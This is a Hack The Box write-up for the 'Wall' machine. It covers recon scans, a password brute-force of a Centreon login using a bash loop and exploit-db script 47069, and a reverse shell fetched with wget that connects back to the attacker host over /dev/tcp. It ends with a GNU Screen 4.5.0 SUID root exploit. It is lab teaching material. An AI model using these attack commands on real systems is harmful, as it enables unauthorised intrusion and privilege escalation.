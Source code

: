 ```yaml
---
layout: post
title: Wall (10.10.10.157) Writeup
description: >
  Hackthebox Wall Writeup
image: /assets/img/wall.png
noindex: true
---
```


<center><h3>Summary</h3></center>

- Use <b>curl</b> to perform a <b>POST</b> request to reveal a hidden directory
- Bruteforce the login credentials using <b>bash</b> and a <b>python</b> script
- Use the Ib interface to execute commands on the System to gain a reverse shell
- Exploit <b>GNU Screen 4.5.0</b> to get a root shell
<br>

First start with an Nmap Scan

```
# Nmap 7.80 scan initiated Fri Sep 20 15:45:55 2019 as: nmap -sV -sC -p- 10.10.10.157
Nmap scan report for 10.10.10.157
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 15:46:43 2019 -- 1 IP address (1 host up) scanned in 47.73 seconds
```
Only 2 ports open. Lets start with port 80. Navigating to <b>http://10.10.10.157</b> I are greeted with an apache default installation

![home.png](../../resources/adb482f4ab6e4149a0ad7f07ba13e679.png)

Next I performed a <b>gobuster</b>. It only spit out a few results.
```
# gobuster dir -u http://10.10.10.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.157
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/09/21 18:48:24 Starting gobuster
===============================================================
/aa.php (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
```
Checking out each result yields not much that can help me. Only the <b>monitoring</b> seemed useful since it prompts us for a Username and Password to log in with. I tried guessing the credentials but had no luck so I moved on.

![monitoring.png](../../resources/d44511721b4a41d19b370711401e1206.png)

Next I did a basic <b>Nikto</b> scan to see what it would pick up. Nothing amazing was found but it did tell me which <b>HTTP Methods</b> are alloId

```
# nikto -h http://10.10.10.157
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.157
+ Target Hostname:    10.10.10.157
+ Target Port:        80
+ Start Time:         2019-09-21 18:52:22 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 58cb1080cb0d2, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ AlloId HTTP Methods: OPTIONS, HEAD, GET, POST
+ 7863 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-09-21 19:00:56 (GMT-4) (514 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Using this info I used <b>curl</b> to send requests to each result from <b>gobuster</b>. Eventually I found something. Sending a <b>POST</b> request to <b>http://10.10.10.157/monitoring/</b> reveals another directory <b>/centreon</b>.
```
# curl -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>I should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
Navigating to <b>http://10.10.10.157/centreon</b> I are greeted with a login page. It is running Centreon v19.04

![login.png](../../resources/20a8fe81bb51454abfce84ebe0fd050b.png)

Doing a quick google search will reveal a *[RCE exploit](https://www.exploit-db.com/exploits/47069)* for this version of <b>centreon</b>.

![rce.png](../../resources/b09073c95e5c45b7a275419d605626b9.png)

The problem with this exploit is that it requires user credentials to work so first I decided to combine a bash script with this python script to bruteforce the login credentials. I used <b>admin</b> as the username.

<b>Bash Script</b>
```
cat /usr/share/wordlists/rockyou.txt | while read line; do python3 47069.py http://10.10.10.157/centreon admin $line 10.10.14.21 10001;sleep 0.5; echo password=$line; done
```
After letting that run for a bit I see that it tells us the password is <b>password1</b>
```
[+] Login token is : 2616bdbc1dddb74f1cbe25dd638be366                                                        
[+] Logged In Sucssfully                                                                                     
[+] Retrieving Poller token                                                                                  
47069.py:56: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for
 this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a diff
erent virtual environment, it may use a different parser and behave differently.                             

The code that caused this warning is on line 56 of the file 47069.py. To get rid of this warning, pass the ad
ditional argument 'features="lxml"' to the BeautifulSoup constructor.                                        

  poller_soup = BeautifulSoup(poller_html)                                                                   
[+] Poller token is : 1362243211de62f028c5350e4782ddc4                                                       
[+] Injecting Done, triggering the payload                                                                   
[+] Check your netcat listener !                                                                             
password=password1
```
For some reason I couldn't get the RCE to work and open up a reverse shell for me so I had to find another way. I did this by logging into the <b>centreon</b> Ib app using the credentials I brute forced. I then navigated to <b>Configuration > Commands > Miscellaneous</b> where you will see this.

![command.png](../../resources/2aa3711c1d8d4a09bab0ba1103822e1e.png)

Now to get my reverse shell I was unable to just type a <b>nc</b> command into the box to connect back to me, I had to do an extra step. First I created a bash script file on my kali machine that contains the command for the reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.21/10000 0>&1
```

I then used <b>wget</b> from the Ib console combined with a <b>python SimpleHTTPServer</b> to download the file onto the box. Hit the small blue button to execute the command.

![wget.png](../../resources/7141b4ca40694e6e9eebcce329779ffc.png)

If done correctly you should see the file get downloaded from the <b>python SimpleHTTPServer</b>
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.157 - - [21/Sep/2019 20:07:41] "GET /shell.sh HTTP/1.1" 200 -
```

Now with the file on the system, I can see up our reverse listener
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```
And to trigger the shell just go back to the Ib console and execute the command <b>bash shell.sh</b>.

![execute.png](../../resources/61bb19e311ee4e0f95d37bd2f80b803c.png)

If everything works you should see a shell spawn
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.157.
Ncat: Connection from 10.10.10.157:52120.
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

Now the <b>user.txt</b> file is stored in <b>/home/shelby/</b> but I dont have the permissions to read it. Doing some quick manual enumeration did result in me finding much so I decided to use the <b>LinEnum.sh</b> script. I copied the script over to the box using the same method as <b>shell.sh</b> but this time I executed <b>wget</b> from the command line inside the shell.

Reading through the output of the script, there is and <b>SUID</b> file that stands out.
```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
A quick google search will reveal *[this](https://www.exploit-db.com/exploits/41154)* exploit. I once again copied the exploit over to the box using the same method. I then run the exploit and instantly become the root user. I run a <b>whoami</b> to confirm this. From here you can just grab both the user and root flags
```
$ bash screenroot.sh
bash screenroot.sh
~ gnu/screenroot ~
[+] First, I create our shell and library...
[+] Now I create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```

